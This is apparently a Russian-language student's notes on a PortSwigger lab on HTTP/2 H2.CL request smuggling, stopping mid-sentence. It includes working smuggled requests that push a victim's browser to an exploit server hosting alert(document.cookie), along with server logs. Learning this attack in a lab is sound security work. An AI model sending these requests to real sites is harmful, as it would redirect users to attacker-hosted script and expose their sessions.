




лаба 
https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling

задание:
нужно протащить контрабандой запрос
этот запрос должен заставить браузер жертвы сделать запрос к эксплойт серверу и взяв файл js с сервера этот js скрипт,  js будет представлять из себя вот это: alert(document.cookie)

-------

на сайте есть запрос на поиск постов по сайту
вот он в сыром ориг виде
```http
POST / HTTP/2
Host: 0a8300dc0373f3ba80f753210037001c.web-security-academy.net
Cookie: session=rMh27SXZx2hbNyDxrEN8BRz9jYM9XXLO
Content-Length: 11
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8300dc0373f3ba80f753210037001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8300dc0373f3ba80f753210037001c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

search=7777
```

также вижу - что мой запрос отражвется в html
` <h1>0 search results for '7777'</h1>`




но пропихнуть xss не вышло
`search=</h1><script>alert(1)</script><h1>`
ответ
```html
<h1>
0 search results for '&lt;/h1&gt;&lt;script&gt;alert(1)&lt;/script&gt;&lt;h1&gt;'
</h1>
```

-----

проверю Host: 

мой эксплойт сервер
Host: exploit-0a0a00d203a3f363809d527d0106009f.exploit-server.net

```http
POST / HTTP/2
Host: exploit-0a0a00d203a3f363809d527d0106009f.exploit-server.net
Content-Length: 43


search=777
```
и вижу что host не валидирует адресса - и сделал запрос к моему серверу! - это вот уже уязвимость!



----

в карте сайта вижу запрос
`GET /resources/js/analytics.js?uid=6732393356 `
`HTTP/2 Host: 0a8300dc0373f3ba80f753210037001c.web-security-academy.net
и ответ на него 
js файл
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 298

function randomString(length, chars) {
    var result = '';
    for (var i = length; i > 0; --i) result += chars[Math.floor(Math.random() * chars.length)];
    return result;
}

var id = randomString(16, '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ');

fetch('/analytics?id=' + id)
```

то есть сайт ходит на свой хост и получает от туда этот js файл!
сам файл - делает уникальный id

----

то есть в теории можно пробовать подменить хост
и на хосте оставить xss
нужно лишь найти место на стр - где отражается то - что приходит с /resources/js/analytics.js

- но ничег оне вышло - так как сервер блокирует полностью чужой хост
-----

подобрал контрабанду которая проходит!
то есть - несмотря на то что CL первого запроса кончился - все равно - второй запрос попадает на сервер

и я использовал путь - который подгружал  /resources/js/analytics.js
так как по этому пути сайт разрешал загрузку

```http
POST / HTTP/2
Host: 0a8300dc0373f3ba80f753210037001c.web-security-academy.net
Content-Length: 1

1

GET /resources HTTP/1.1
Host: exploit-0a0a00d203a3f363809d527d0106009f.exploit-server.net
Content-Length: 3

1
```

и на эксплойт сервер вижу - что был запрос к серверу
```
10.0.3.243      2026-03-10 09:31:54 +0000 
"GET /resources/ HTTP/1.1" 404 
"user-agent: Mozilla/5.0 (Victim) 
AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/125.0.0.0 Safari/537.36"
```


итого - 
на первый запрос - > 
`HTTP/2 200 OK обычный ответ с постами`
на второй  запрос - > 
```http
HTTP/2 302 Found
Location: https://exploit-0a0a00d203a3f363809d527d0106009f.exploit-server.net/resources/
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

то есть - есть разница, между ответами!

и если сделать
```http
POST / HTTP/2
Host: 0a8300dc0373f3ba80f753210037001c.web-security-academy.net
Content-Length: 1

1

GET /xxx HTTP/1.1
Host: exploit-0a0a00d203a3f363809d527d0106009f.exploit-server.net
Content-Length: 3

1
```
то первый запрос - ответ= 200 - это пришел ответ на первый запрос 
а вот второй запрос  получаю ответ 404"Not Found" так как  /xxx
это доказывает прямо - что есть уязвимость H2.CL

----

теперь нужно понять - как это использовать =>  куда в коде попадает код который я передаю через host ?


по идее - то что я оставлю на своем сервере будет загружено и выполнено js компилятором на сервере вместо оригинального этого кода:
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 298

function randomString(length, chars) {
    var result = '';
    for (var i = length; i > 0; --i) result += chars[Math.floor(Math.random() * chars.length)];
    return result;
}

var id = randomString(16, '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ');

fetch('/analytics?id=' + id)
```

------

поэтому можно пробовать на сервере разместить пейлоад
`alert(document.cookie)`

-------

а а далее контрабандой оставлять висеть запросы в буфере сервера с ссылкой на мой сервер - где у меня лежит `alert(document.cookie)`

----

многократно отправляю запросы
```http
POST / HTTP/2
Host: 0a8300dc0373f3ba80f753210037001c.web-security-academy.net
Content-Length: 1

1

GET /resources/exploit HTTP/1.1
Host: exploit-0a0a00d203a3f363809d527d0106009f.exploit-server.net
Content-Length: 3

1
```
и вижу - как жертва клюет и переходит на мой сервер - и соответсвенно получает мой скрипт с аллертом
но лаба не решается
и перехватить это тоже не выходит
```
10.0.3.243      2026-03-10 10:07:42 +0000 "GET /resources/ HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.243      2026-03-10 10:07:58 +0000 "GET /resources/ HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.243      2026-03-10 10:08:13 +0000 "GET /resources/ HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.243      2026-03-10 10:08:18 +0000 "GET /resources/ HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

видимо сам скрипт не выполняется у жертвы..



------
причем я могу сам перехватывать собственный запрсы вредоносные

я отправляю 
```http
POST / HTTP/2
Host: 0a8300dc0373f3ba80f753210037001c.web-security-academy.net
Content-Length: 1

1

GET /resources/exploit HTTP/1.1
Host: exploit-0a0a00d203a3f363809d527d0106009f.exploit-server.net
Content-Length: 3

1
```
и тут же сделав запрос обновить любую стр на этом сайте - то получаю в ответе - ответ на запрос GET /resources/exploit HTTP/1.1 - хотя в браузере например просто обновлял главную страницу!
но в браузере вот это сообщение после обращения к моему серверу
`<pre>"Resource not found - Academy Exploit Server"</pre>`
то есть все четко!
но лаба не выволняется - и скрипты алерт не срабатывает - я вообще не могу нигде найти место - чтобы понять что браузер загрузил мой скрипт с сервера.




-----

ошибка была в том - что я на эксплойт сервере